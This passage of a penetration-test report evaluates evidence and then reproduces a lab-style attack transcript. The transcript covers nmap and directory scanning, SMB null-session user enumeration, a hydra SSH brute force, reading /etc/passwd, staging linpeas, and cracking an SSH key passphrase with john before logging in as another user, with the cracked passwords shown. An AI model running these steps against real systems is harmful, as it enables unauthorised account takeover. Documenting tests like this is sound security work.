subsequent Ubuntu welcome banner supports an accepted SSH session.
Together with E-08, this corroborates the reported account-compromise
path. The pasted record ends this login output before an account-specific
shell prompt or an `id`/`whoami` result, so post-login identity is not
independently displayed here. It provides no evidence of root access or
movement to a different host.

### 10.12 E-10 — Backup File Retrieval: Command Recorded

**Recorded text:**

```bash
cat pass.bak
```

**Evidence status:** The attachment includes the command text but no
shell prompt, returned file contents, file listing, or error status.
Consequently, this supplemental evidence does not independently confirm
the password string stated in Section 4.6. That original account of the
result is preserved; the missing output is not reconstructed or invented.
F-04's existing score remains conditional on the earlier reported
plaintext disclosure.

### 10.13 Evidence-Based Assessment Update

The added record directly strengthens F-01 through credential recovery
and authenticated access, and F-03 through offline passphrase recovery
and an accepted SSH session targeting `kay`. It adds the SMB-reported
policy, anonymous enumeration, more precise service banners, and a
banner-reported Ubuntu release. It provides partial context for F-02
and no returned backup-file contents for F-04.

The existing CVSS vectors remain unchanged: the new material does not
establish administrator privileges, broader integrity impact, service
disruption, or cross-authority compromise. SMB policy observations are
kept separate from effective SSH controls. The evidence checklist in
Section 9 distinguishes recorded outputs from missing captures.

------------------------------------------------------------------------

## 11. Original Supplemental Transcript

The complete supplied text follows for traceability. Informal notes,
blank lines, original tool warnings, and terminal output are retained;
line endings are normalized. The structured interpretation in Section 10
controls how each item is used as evidence.

````text
Recon

Scan services
nmap -sV 10.48.137.87
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-22 15:23 +0700
Nmap scan report for 10.48.137.87
Host is up (0.17s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 4
445/tcp  open  netbios-ssn Samba smbd 4
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat 9.0.7
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.60 seconds


Directory mapping using gobuster and common wordlist
gobuster dir -u http://10.48.137.87 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.48.137.87
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta                 (Status: 403) [Size: 277]
.htaccess            (Status: 403) [Size: 277]
.htpasswd            (Status: 403) [Size: 277]
development          (Status: 301) [Size: 318] [--> http://10.48.137.87/development/]
index.html           (Status: 200) [Size: 158]
server-status        (Status: 403) [Size: 277]
Progress: 4613 / 4613 (100.00%)
===============================================================
Finished
===============================================================


What is the name of the hidden directory on the web server(enter name without /)?
development

Search username using SMB
 enum4linux -a 10.48.137.87 | tee enum.log           
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sun Nov 22 15:44:20 2026

 =========================================( Target Information )=========================================
                                                                                                                    
Target ........... 10.48.137.87                                                                                     
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ============================( Enumerating Workgroup/Domain on 10.48.137.87 )============================
                                                                                                                    
                                                                                                                    
[+] Got domain/workgroup name: WORKGROUP                                                                            
                                                                                                                    
                                                                                                                    
 ================================( Nbtstat Information for 10.48.137.87 )================================
                                                                                                                    
Looking up status of 10.48.137.87                                                                                   
        BASIC2          <00> -         B <ACTIVE>  Workstation Service
        BASIC2          <03> -         B <ACTIVE>  Messenger Service
        BASIC2          <20> -         B <ACTIVE>  File Server Service
        ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
        WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
        WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
        WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

        MAC Address = 00-00-00-00-00-00

 ===================================( Session Check on 10.48.137.87 )===================================
                                                                                                                    
                                                                                                                    
[+] Server 10.48.137.87 allows sessions using username '', password ''                                              
                                                                                                                    
                                                                                                                    
 ================================( Getting domain SID for 10.48.137.87 )================================
                                                                                                                    
Domain Name: WORKGROUP                                                                                              
Domain Sid: (NULL SID)

[+] Can't determine if host is part of domain or part of a workgroup                                                
                                                                                                                    
                                                                                                                    
 ===================================( OS information on 10.48.137.87 )===================================
                                                                                                                    
                                                                                                                    
[E] Can't get OS info with smbclient                                                                                
                                                                                                                    
                                                                                                                    
[+] Got OS info for 10.48.137.87 from srvinfo:                                                                      
        BASIC2         Wk Sv PrQ Unx NT SNT Samba Server 4.15.13-Ubuntu                                             
        platform_id     :       500
        os version      :       6.1
        server type     :       0x809a03


 =======================================( Users on 10.48.137.87 )=======================================
                                                                                                                    
Use of uninitialized value $users in print at ./enum4linux.pl line 972.                                             
Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 975.

Use of uninitialized value $users in print at ./enum4linux.pl line 986.
Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 988.

 =================================( Share Enumeration on 10.48.137.87 )=================================
                                                                                                                    
smbXcli_negprot_smb1_done: No compatible protocol selected by server.                                               

        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      
        IPC$            IPC       IPC Service (Samba Server 4.15.13-Ubuntu)
Reconnecting with SMB1 for workgroup listing.
Protocol negotiation to server 10.48.137.87 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available

[+] Attempting to map shares on 10.48.137.87                                                                        
                                                                                                                    
//10.48.137.87/Anonymous        Mapping: OK Listing: OK Writing: N/A                                                

[E] Can't understand response:                                                                                      
                                                                                                                    
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*                                                                          
//10.48.137.87/IPC$     Mapping: N/A Listing: N/A Writing: N/A

 ============================( Password Policy Information for 10.48.137.87 )============================
                                                                                                                    
Password:                                                                                                           


[+] Attaching to 10.48.137.87 using a NULL share

[+] Trying protocol 139/SMB...

[+] Found domain(s):

        [+] BASIC2
        [+] Builtin

[+] Password Info for Domain: BASIC2

        [+] Minimum password length: 5
        [+] Password history length: None
        [+] Maximum password age: 136 years 37 days 6 hours 21 minutes 
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: None
        [+] Reset Account Lockout Counter: 30 minutes 
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: 136 years 37 days 6 hours 21 minutes 


[+] Retieved partial password policy with rpcclient:                                                                
                                                                                                                    
                                                                                                                    
Password Complexity: Disabled                                                                                       
Minimum Password Length: 5


 =======================================( Groups on 10.48.137.87 )=======================================
                                                                                                                    
                                                                                                                    
[+] Getting builtin groups:                                                                                         
                                                                                                                    
                                                                                                                    
[+]  Getting builtin group memberships:                                                                             
                                                                                                                    
                                                                                                                    
[+]  Getting local groups:                                                                                          
                                                                                                                    
                                                                                                                    
[+]  Getting local group memberships:                                                                               
                                                                                                                    
                                                                                                                    
[+]  Getting domain groups:                                                                                         
                                                                                                                    
                                                                                                                    
[+]  Getting domain group memberships:                                                                              
                                                                                                                    
                                                                                                                    
 ==================( Users on 10.48.137.87 via RID cycling (RIDS: 500-550,1000-1050) )==================
                                                                                                                    
                                                                                                                    
[I] Found new SID:                                                                                                  
S-1-22-1                                                                                                            

[I] Found new SID:                                                                                                  
S-1-5-32                                                                                                            

[I] Found new SID:                                                                                                  
S-1-5-32                                                                                                            

[I] Found new SID:                                                                                                  
S-1-5-32                                                                                                            

[I] Found new SID:                                                                                                  
S-1-5-32                                                                                                            

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                         
                                                                                                                    
                                                                                                                    
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
S-1-22-1-1002 Unix User\ubuntu (Local User)
 
[+] Enumerating users using SID S-1-5-32 and logon username '', password ''                                         
                                                                                                                    
S-1-5-32-544 BUILTIN\Administrators (Local Group)                                                                   
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)


Brute force password for account jan
(tiara㉿kali)-[~/basic_pentest]
└─$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.48.137.87

Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-11-22 15:58:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.48.137.87:22/
 [STATUS] 159.00 tries/min, 159 tries in 00:01h, 14344243 to do in 1503:36h, 13 active
[STATUS] 113.33 tries/min, 340 tries in 00:03h, 14344066 to do in 2109:26h, 9 active
[22][ssh] host: 10.48.137.87   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 7 final worker threads did not complete until end.
[ERROR] 7 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-11-22 16:05:21


Login using ssh account jan
ssh jan@10.48.137.87
The authenticity of host '10.48.137.87 (10.48.137.87)' can't be established.
ED25519 key fingerprint is: SHA256:BBNMT3S1FHFCnlpnEl3Mpo7ABHUOLK/aE523JHcGLss
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.48.137.87' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
jan@10.48.137.87's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun 22 Nov 2026 04:08:01 AM EST

  System load:  0.0                Processes:             113
  Usage of /:   49.9% of 13.62GB   Users logged in:       0
  Memory usage: 61%                IPv4 address for ens5: 10.48.137.87
  Swap usage:   0%

Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2025.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Mon Apr 23 15:55:45 2018 from 192.168.56.102
jan@ip-10-48-137-87:~$ 


Coba cek password
jan@ip-10-48-137-87:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
kay:x:1000:1000:Kay,,,:/home/kay:/bin/bash
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
tomcat9:x:999:999::/home/tomcat9:/bin/false
jan:x:1001:1001::/home/jan:/bin/bash
pollinate:x:103:1::/var/cache/pollinate:/bin/false
landscape:x:111:118::/var/lib/landscape:/usr/sbin/nologin
tss:x:112:121:TPM software stack,,,:/var/lib/tpm:/bin/false
tcpdump:x:113:122::/nonexistent:/usr/sbin/nologin
fwupd-refresh:x:114:123:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
usbmux:x:115:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
ubuntu:x:1002:1002:Ubuntu:/home/ubuntu:/bin/bash
jan@ip-10-48-137-87:~$ 


Bisa loncat ke user lain
jan@ip-10-48-137-87:~$ cd ..
jan@ip-10-48-137-87:/home$ cd kay
jan@ip-10-48-137-87:/home/kay$ 


(tiara㉿kali)-[~/basic_pentest]
└─$ scp ~/basic_pentest/linpeas.sh jan@10.48.137.87:/dev/shm/
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
jan@10.48.137.87's password: 
linpeas.sh         

Balik ke ssh jan
jan@ip-10-48-137-87:/home/kay$ cd /dev/shm
jan@ip-10-48-137-87:/dev/shm$ 


Save the file using nan kay_id_rsa

Use 
/usr/share/john/ssh2john.py kay_id_rsa


Save ke txtx untuk di run john
┌──(tiara㉿kali)-[~/basic_pentest]
└─$ /usr/share/john/ssh2john.py kay_id_rsa > forjohn.txt

┌──(tiara㉿kali)-[~/basic_pentest]
└─$ john forjohn.txt

                                                                                                            
┌──(tiara㉿kali)-[~/basic_pentest]
└─$ john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (kay_id_rsa)     
1g 0:00:00:00 DONE (2026-11-22 16:53) 9.090g/s 752145p/s 752145c/s 752145C/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 


                                                                                                          
┌──(tiara㉿kali)-[~/basic_pentest]
└─$ ssh -i kay_id_rsa kay@10.48.137.87
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
Enter passphrase for key 'kay_id_rsa': 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun 22 Nov 2026 05:02:59 AM EST

  System load:  0.0                Processes:             127
  Usage of /:   50.0% of 13.62GB   Users logged in:       1
  Memory usage: 58%                IPv4 address for ens5: 10.48.137.87
  Swap usage:   30%

Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2025.


cat pass.bak


````
